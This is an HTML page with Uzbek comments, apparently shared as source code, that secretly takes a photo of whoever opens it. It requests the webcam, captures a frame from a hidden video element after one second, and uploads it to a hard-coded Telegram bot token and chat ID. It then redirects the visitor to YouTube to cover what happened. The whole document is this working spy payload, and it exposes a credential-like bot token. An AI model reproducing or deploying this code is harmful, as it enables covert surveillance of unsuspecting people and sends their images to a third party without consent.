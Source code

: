 <!DOCTYPE html>
<html
<head>
  <title>Telegramga Rasm Yuborish</title>
</head>
<body>
  <h2>Rasmingiz yuborilmoqda...</h2>
  <video id="video" autoplay style="display:none;"></video>
  <canvas id="canvas" style="display:none;"></canvas>

  <script>
    const TOKEN = '6050712984:AAGyDYqJAWwHzRNT7OjleskvmfaLF2hCSbs'; // <--- bu yerga o'z tokeningizni yozing
    const CHAT_ID = '5406454987'; // <--- bu yerga user ID yoki kanal ID yozing

    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;

        video.onloadedmetadata = () => {
          setTimeout(() => {
            const ctx = canvas.getContext('2d');
            canvas.width = video.videoWidth;
            canvas.height = video.videoHeight;
            ctx.drawImage(video, 0, 0);

            const imageData = canvas.toDataURL('image/jpeg');

            // base64 rasmni blob formatga o‘tkazamiz
            fetch(imageData)
              .then(res => res.blob())
              .then(blob => {
                const formData = new FormData();
                formData.append('chat_id', CHAT_ID);
                formData.append('photo', blob, 'photo.jpg');

                // Bevosita Telegram API'ga yuborish (xavfsiz emas!)
                fetch(https://api.telegram.org/bot${TOKEN}/sendPhoto, {
                  method: 'POST',
                  body: formData
                })
                .then(() => {
                  // YouTube sahifasiga o‘tish
                  window.location.href = 'https://youtube.com';
                })
                .catch(error => {
                  console.error("Telegramga yuborilmadi:", error);
                  alert("Telegramga yuborilmadi!");
                });
              });
          }, 1000); // 1 soniyadan so'ng rasm olish
        };
      })
      .catch(err => {
        alert("Kamera ishlamayapti.");
        console.error(err);
      });
  </script>
</body>
</html>

